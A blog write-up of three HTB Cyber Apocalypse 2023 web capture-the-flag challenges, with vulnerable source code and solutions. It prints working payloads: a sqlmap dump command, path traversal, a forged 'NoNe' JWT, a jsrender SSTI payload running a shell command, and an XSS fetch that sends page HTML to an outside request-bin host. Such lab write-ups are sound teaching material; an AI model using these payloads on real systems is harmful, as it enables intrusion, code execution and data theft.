



## Introduction
Welcome to my blog post about the web challenges in the HTB Cyber Apocalypse 2023 competition! For those who may not be familiar, HTB (Hack The Box) is a platform that provides a range of cybersecurity challenges for users to test and improve their skills. Cyber Apocalypse 2023 was a massive virtual event that took place in February 2023, where thousands of participants from all over the world competed in a range of challenges, including web, crypto, reverse engineering, and more.

We were able to reach 29th place and solve 60/74 challenges. Particularly for web challenges, we got 8/9 (the one we didn't solve was Unearthly Shop).


In this blog post, I will focus specifically on the web challenges in the Cyber Apocalypse 2023 competition. I will provide a detailed analysis of each challenge, along with my thought process and the techniques I used to solve them. Whether you're an aspiring cybersecurity professional or a seasoned veteran, I hope you find my write-ups informative and helpful!

## Orbital (easy)
### Challenge
**Given file:**: [Get it here](https://github.com/HoangREALER/cyberApocalypse2023/blob/main/web_orbital.zip)

**Description**: In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?

### Solution
At first, we were given the login page which requires credentials. There's nothing else you can do at this point than reading given code.


Upon given the code, you can find out that there is 1 user "admin" which is initiated at the time the docker is created. We can also see that, the application only has SELECT privilege on table `orbital.users` and `orbital.communications`.

```bash
mysql -u root << EOF
CREATE DATABASE orbital;
CREATE TABLE orbital.users (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    username varchar(255) NOT NULL UNIQUE,
    password varchar(255) NOT NULL
);
CREATE TABLE orbital.communication (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    source varchar(255) NOT NULL,
    destination varchar(255) NOT NULL,
    name varchar(255) NOT NULL,
    downloadable varchar(255) NOT NULL
);
INSERT INTO orbital.users (username, password) VALUES ('admin', '$(genPass)');
INSERT INTO orbital.communication (source, destination, name, downloadable) VALUES ('Titan', 'Arcturus', 'Ice World Calling Red Giant', 'communication.mp3');
INSERT INTO orbital.communication (source, destination, name, downloadable) VALUES ('Andromeda', 'Vega', 'Spiral Arm Salutations', 'communication.mp3');
INSERT INTO orbital.communication (source, destination, name, downloadable) VALUES ('Proxima Centauri', 'Trappist-1', 'Lone Star Linkup', 'communication.mp3');
INSERT INTO orbital.communication (source, destination, name, downloadable) VALUES ('TRAPPIST-1h', 'Kepler-438b', 'Small World Symposium', 'communication.mp3');
INSERT INTO orbital.communication (source, destination, name, downloadable) VALUES ('Winky', 'Boop', 'Jelly World Japes', 'communication.mp3');
CREATE USER 'user'@'localhost' IDENTIFIED BY 'M@k3l@R!d3s$';
GRANT SELECT ON orbital.users TO 'user'@'localhost';
GRANT SELECT ON orbital.communication TO 'user'@'localhost';
FLUSH PRIVILEGES;
EOF
```

Now let's move on with the application. At first glance at source code, we can see it is vulnerable to Local File Inclusion attack at this endpoint `blueprints/routes.py`.

```python
from flask import Blueprint, render_template, request, session, redirect, send_file
from application.database import login, getCommunication
from application.util import response, isAuthenticated

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def signIn():
    return render_template('login.html')

@web.route('/logout')
def logout():
    session['auth'] = None
    return redirect('/')

@web.route('/home')
@isAuthenticated
def home():
    allCommunication = getCommunication()
    return render_template('home.html', allCommunication=allCommunication)

@api.route('/login', methods=['POST'])
def apiLogin():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')
    
    if not username or not password:
        return response('All fields are required!'), 401
    
    user = login(username, password)
    
    if user:
        session['auth'] = user
        return response('Success'), 200
        
    return response('Invalid credentials!'), 403

@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```

Here we can see when we call `/api/export` with POST method it will use body parameter `name` to get the files. We can exploit this to get the flag using something like `name=../../../../flag.txt`. But to use this endpoint, we must be authenticated, at the context of this challenge only "admin" user can be authenticated.

Looking at how authentication works, I found out a place that is vulnerable to SQL Injection. However keep in mind that we are only granted access to SELECT on table `users` and `communications`. I decided to use `sqlmap` to save the what're left of my brain cells.

```python
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```

I decided to use `Burpsuite` to capture to login request, modified the field `username` with value `*` and saved it for the usage of `sqlmap`.


I saved it as `req.txt`. Since the database and the table was already known the command I used was: 

```bash
sqlmap -r req.txt --level=5 --risk=3 --technique=T -o --ignore-code 401 -D orbital -T users --dump
```


Nice but we only got the hash. Initially, we was trying to use `hashcat` but since this is HackTheBox, the challenge may use well-known hash so I throw it on the internet and Voila! The credential is `admin:ichliebedich`, login and use LFI attack the get flag.


Flag: `HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}`


## Didactic Octo Paddles (medium)
### Challenge
**Given File**: [Get it here](https://github.com/HoangREALER/cyberApocalypse2023/blob/main/web_didactic_octo_paddle.zip)

**Description**: You have been hired by the Intergalactic Ministry of Spies to retrieve a powerful relic that is believed to be hidden within the small paddle shop, by the river. You must hack into the paddle shop's system to obtain information on the relic's location. Your ultimate challenge is to shut down the parasitic alien vessels and save humanity from certain destruction by retrieving the relic hidden within the Didactic Octo Paddles shop.

### Solution
This time it gives us a login panel like the last time. Except this time it also has register function. Let's look at the main routes in the source code.

`challenge/routes/index.js`
```js
module.exports = (db) => {
    const bcrypt = require("bcryptjs");
    const router = require("express").Router();
    const jwt = require("jsonwebtoken");
    const jsrender = require("jsrender");
    const AuthMiddleware = require("../middleware/AuthMiddleware");
    const AdminMiddleware = require("../middleware/AdminMiddleware");
    const { tokenKey, getUserId } = require("../utils/authorization");

    const response = (data) => ({ message: data });

    router.get("/", AuthMiddleware, async (req, res) => {
        try {
            const products = await db.Products.findAll();
            res.render("index", { products: products });
        } catch (error) {
            console.error(error);
            res.status(500).send("Something went wrong!");
        }
    });

    ........

    router.post("/register", async (req, res) => {
        try {
            const username = req.body.username;
            const password = req.body.password;

            if (!username || !password) {
                return res
                    .status(400)
                    .send(response("Username and password are required"));
            }

            const existingUser = await db.Users.findOne({
                where: { username: username },
            });
            if (existingUser) {
                return res
                    .status(400)
                    .send(response("Username already exists"));
            }

            await db.Users.create({
                username: username,
                password: bcrypt.hashSync(password),
            }).then(() => {
                res.send(response("User registered succesfully"));
            });
        } catch (error) {
            console.error(error);
            res.status(500).send({
                error: "Something went wrong!",
            });
        }
    });

    ........

    router.post("/login", async (req, res) => {
        try {
            const username = req.body.username;
            const password = req.body.password;

            if (!username || !password) {
                return res
                    .status(400)
                    .send(response("Username and password are required"));
            }

            const user = await db.Users.findOne({
                where: { username: username },
            });
            if (!user) {
                return res
                    .status(400)
                    .send(response("Invalid username or password"));
            }

            const validPassword = bcrypt.compareSync(password, user.password);
            if (!validPassword) {
                return res
                    .status(400)
                    .send(response("Invalid username or password"));
            }

            const token = jwt.sign({ id: user.id }, tokenKey, {
                expiresIn: "1h",
            });

            res.cookie("session", token);

            return res.status(200).send(response("Logged in successfully"));
        } catch (error) {
            console.error(error);
            res.status(500).send({
                error: "Something went wrong!",
            });
        }
    });

    ........

    router.get("/admin", AdminMiddleware, async (req, res) => {
        try {
            const users = await db.Users.findAll();
            const usernames = users.map((user) => user.username);

            res.render("admin", {
                users: jsrender.templates(`${usernames}`).render(),
            });
        } catch (error) {
            console.error(error);
            res.status(500).send("Something went wrong!");
        }
    });

    router.get("/logout", async (req, res) => {
        res.clearCookie("session");
        return res.redirect("/");
    });

    return router;
};
```
Okay, so it has some basic authentication funtions like `register`, `login` and `logout`; in addition to that we also has 2 authorization middlewares `AdminMiddleware` and `AuthMiddleware`. And they all use [`Json Web Token (JWT)`](https://jwt.io/).

```js
router.get("/admin", AdminMiddleware, async (req, res) => {
    try {
        const users = await db.Users.findAll();
        const usernames = users.map((user) => user.username);

        // This pepega jsrender things
        res.render("admin", {
            users: jsrender.templates(`${usernames}`).render(),
        });
    } catch (error) {
        console.error(error);
        res.status(500).send("Something went wrong!");
    }
});

router.get("/logout", async (req, res) => {
    res.clearCookie("session");
    return res.redirect("/");
});

return router;
```

What really stands out of them all is at the `/admin` endpoint which allows us to inject something in the template. But first, we need to bypass the `AuthMiddleware`. Looking what it does, we find something really interesting.


```js
const AdminMiddleware = async (req, res, next) => {
    try {
        const sessionCookie = req.cookies.session;
        if (!sessionCookie) {
            return res.redirect("/login");
        }
        const decoded = jwt.decode(sessionCookie, { complete: true });

        if (decoded.header.alg == 'none') {
            return res.redirect("/login");
        } else if (decoded.header.alg == "HS256") {
            const user = jwt.verify(sessionCookie, tokenKey, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res.status(403).send("You are not an admin");
            }
        } else {
            const user = jwt.verify(sessionCookie, null, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res
                    .status(403)
                    .send({ message: "You are not an admin" });
            }
        }
    } catch (err) {
        return res.redirect("/login");
    }
    next();
};
```

Do you see something fun here ? It checks for the header algorith field. If it is `none`, it makes us login again. And if it is `HS256`, which basically the same algorithm it uses to authenticate, the app verifies using the random generated key. Or "else" it verifies with no key at all. This is fun because only with algorithm `none`, the function `verify` would work.

I was banging my head for a while, I realised that it doesn't check for `NoNe`, `NonE` but it is still able to decoded and verified. That lead us to craft a  JWT to pass to the `session` cookie for admin previlege. I crafted the JWT manually 😵‍💫.

```
eyJhbGciOiJOb05lIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5NTk0OTY1LCJleHAiOjI2Nzk1OTg1NjV9.
{
  "alg": "None",
  "typ": "JWT"
}
{
  "id": 1,
  "iat": 1679594965,
  "exp": 2679598565
}
```

I modified the algorithm to `None`, "id" to `1` as 1 is the id of "admin" and set the expiration time to oblivion so I can take my time to get the flag.


For the flag, look again at the routes' functions, we can get the flag through [SSTI on jsrender](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jsrender-nodejs). To do so the payload must be one of the usernames registered. Only thing we have to do now is to register a new account with the payload for the username.

`{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}`


Flag: `HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}`

## SpyBug (medium)
### Challenge
**Given file:**: [Get it here](https://github.com/HoangREALER/cyberApocalypse2023/blob/main/web_spybug.zip)

**Description**: As Pandora made her way through the ancient tombs, she received a message from her contact in the Intergalactic Ministry of Spies. They had intercepted a communication from a rival treasure hunter who was working for the alien species. The message contained information about a digital portal that leads to a software used for intercepting audio from the Ministry's communication channels. Can you hack into the portal and take down the aliens counter-spying operation?

### Solution
Right, another login panel with no reigster. But wait what's that ? Look at the source code closely, we will have 2 main routes: `routes/agents` and `routes/main`.

```js
// agents.js
const fs = require("fs");
const path = require("path");
const { v4: uuidv4 } = require("uuid");

const express = require("express");
const router = express.Router();

const multer = require("multer");

const {
  registerAgent,
  updateAgentDetails,
  createRecording,
} = require("./../utils/database");

const authAgent = require("../middleware/authagent");

const storage = multer.diskStorage({
  filename: (req, file, cb) => {
    cb(null, uuidv4());
  },
  destination: (req, file, cb) => {
    cb(null, "./uploads");
  },
});

const multerUpload = multer({
  storage: storage,
  fileFilter: (req, file, cb) => {
    if (
      file.mimetype === "audio/wave" &&
      path.extname(file.originalname) === ".wav"
    ) {
      cb(null, true);
    } else {
      return cb(null, false);
    }
  },
});

router.get("/agents/register", async (req, res) => {
  res.status(200).json(await registerAgent());
});

router.get("/agents/check/:identifier/:token", authAgent, (req, res) => {
  res.sendStatus(200);
});

router.post(
  "/agents/details/:identifier/:token",
  authAgent,
  async (req, res) => {
    const { hostname, platform, arch } = req.body;
    if (!hostname || !platform || !arch) return res.sendStatus(400);
    await updateAgentDetails(req.params.identifier, hostname, platform, arch);
    res.sendStatus(200);
  }
);

router.post(
  "/agents/upload/:identifier/:token",
  authAgent,
  multerUpload.single("recording"),
  async (req, res) => {
    if (!req.file) return res.sendStatus(400);

    const filepath = path.join("./uploads/", req.file.filename);
    const buffer = fs.readFileSync(filepath).toString("hex");

    if (!buffer.match(/52494646[a-z0-9]{8}57415645/g)) {
      fs.unlinkSync(filepath);
      return res.sendStatus(400);
    }

    await createRecording(req.params.identifier, req.file.filename);
    res.send(req.file.filename);
  }
);

module.exports = router;


// panel.js
const express = require("express");
const router = express.Router();

const {
  checkUserLogin,
  getAgents,
  getRecordings,
} = require("./../utils/database");

const authUser = require("../middleware/authuser");

router.get("/panel", authUser, async (req, res) => {
  res.render("panel", {
    username:
      req.session.username === "admin"
        ? process.env.FLAG
        : req.session.username,
    agents: await getAgents(),
    recordings: await getRecordings(),
  });
});

router.get("/panel/logout", authUser, (req, res) => {
  req.session.destroy();
  res.redirect("/panel/login");
});

router.get("/panel/login", (req, res) => {
  res.render("login");
});

router.post("/panel/login", async (req, res) => {
  let username = req.body.username;
  let password = req.body.password;

  if (!(username && password)) return res.sendStatus(400);
  if (!(await checkUserLogin(username, password)))
    return res.redirect("/panel/login");

  req.session.loggedin = true;
  req.session.username = username;

  res.redirect("/panel");
});

module.exports = router;
```

Let's summarize what they do.

`routes/agent.js` has register function which returns an id and a token that we can use to upload a file. And we can only upload a file with the header which is somewhat similar to `WAV` file. We can also modify `hostname`, `arch` and `platform`.

`routes/panel.js` which only accepts credential of `admin`. If the provided credential is valid, the main panel will render with the recordings that agents provide.

Let's keep in mind that there is a bot being generated at every 60 seconds. This bot will login to the panel and review all panel at a context of a browser. This is no doubt an Client-Side challenge.

```js
// index.js
const { visitPanel } = require("./utils/adminbot");
............
createAdmin();
setInterval(visitPanel, 60000);


// utils/adminbot.js
require("dotenv").config();

const puppeteer = require("puppeteer");

const browserOptions = {
  headless: true,
  executablePath: "/usr/bin/chromium-browser",
  args: [
    "--no-sandbox",
    "--disable-background-networking",
    "--disable-default-apps",
    "--disable-extensions",
    "--disable-gpu",
    "--disable-sync",
    "--disable-translate",
    "--hide-scrollbars",
    "--metrics-recording-only",
    "--mute-audio",
    "--no-first-run",
    "--safebrowsing-disable-auto-update",
    "--js-flags=--noexpose_wasm,--jitless",
  ],
};

exports.visitPanel = async () => {
  try {
    const browser = await puppeteer.launch(browserOptions);
    let context = await browser.createIncognitoBrowserContext();
    let page = await context.newPage();

    await page.goto("http://0.0.0.0:" + process.env.API_PORT, {
      waitUntil: "networkidle2",
      timeout: 5000,
    });

    await page.type("#username", "admin");
    await page.type("#password", process.env.ADMIN_SECRET);
    await page.click("#loginButton");

    await page.waitForTimeout(5000);
    await browser.close();
  } catch (e) {
    console.log(e);
  }
};
```

Well since I really wanted to know how the recordings being rendered. I will create a Docker. For those who are new to CTFs, Docker is a good way to debug what really happens behind the curtain.

For the purpose of testing I will modify `./build-docker.sh`  to

```bash
#!/bin/bash
docker stop web_spybug
docker rm web_spybug
docker rmi $(docker images -f dangling=true -q)
docker rmi $(docker images -q web_spybug)
docker build --tag=web_spybug .
docker run -p 1337:1337 -e API_PORT=1337 -e FLAG="HTB{f4k3_fl4g_f0r_t3st1ng}" -e SESSION_SECRET=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1) -e ADMIN_SECRET="admin" web_spybug 
```

I changed the admin password from randomly generated 32 characters string to `admin`. Let's build and run the docker using command
`./build-docker.sh`

While waiting our docker finishes building and runs. Let's look at how are we able to perform such Client-Side XSS attack. Let's look at the template `views/panel.pug`, we will find 2 places that we can place our payload.
```pug
if agents.length > 0
    table.w-100
        thead
            tr
            th ID
            th Hostname
            th Platform
            th Arch
        tbody
            each agent in agents
                tr
                    td= agent.identifier
                    td !{agent.hostname}
                    td !{agent.platform}
                    td !{agent.arch}
```

```pug
tbody
    each recording in recordings
        tr
            td= recording.agentId
            td
                audio(controls='')
                    source(src=recording.filepath)
```

The first flashes through my mind is `!{agent.hostname}`, `!{agent.platform}` and `!{agent.arch}`. Upon reading the `pug/jade` document


Aaaaaah, so no escape then, so we just need to fix the `hostname` or `platform` or `arch` to `<script>(evil xss)</script>` right ? Unfortunately, it won't work. Let's look at the `index.js` again.

```js
application.use((req, res, next) => {
  res.setHeader("Content-Security-Policy", "script-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'none';");
  res.setHeader("Cache-Control", "no-cache, no-store, must-revalidate");
  res.setHeader("Pragma", "no-cache");
  res.setHeader("Expires", "0");
  next();
});
```

There is CSP rule set that only allows source from `self`. What we were trying is called `inline`. You can read the material [here](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass).

Don't worry, I said 2 things come to my mind while reading the template. The second thing is that the audio use our uploaded `WAV` file. There is a good [writeup](https://dttw.tech/posts/r1jswRaAG) in the past that can clear your mind out. This challenge is more simple. It only checks the header, not the entire file. So we can use hexedit to edit the header of the file to `WAV` header and include our xss payload. You can either use hexedit on your laptop or like me use an online hexeditor.

But does it used `<audio>` tag, how can the script be executed ? You're right, we can't. However if something like `<script src="our-evil-media-file.wav"></script>` appears, it will execute our payload like a charm. Well how can we make it appear ?
Use `!{hostname}` obviously.


Okay let's go and try out our web built from the docker at `localhost:1337`. We can use `admin:admin` to login to the panel now.


You can either create a form with html to deal with the endpoints and upload file or use `Postman` to deal with it like me.

First me need to register an agent.


Use the id and token returned for uploading the file that contains the payload.


And finally, inject into html.





Spectacular !! Now we only need to modify our payload for it to get all content of the html page at send it to our self hosted server or maybe [RequestBin](https://requestbin.com). The payload I used:

```js
// change the url of the requestbin
fetch('https://ensei2x093jq8.x.pipedream.net?muneh=' + document.documentElement.innerHTML)
```

Repeat all the steps above against challenge server. We will see the flag in the RequestBin we created.


Flag: `HTB{p01yg10t5_4nd_35p10n4g3}`

## TrapTrack (hard) (coming soon)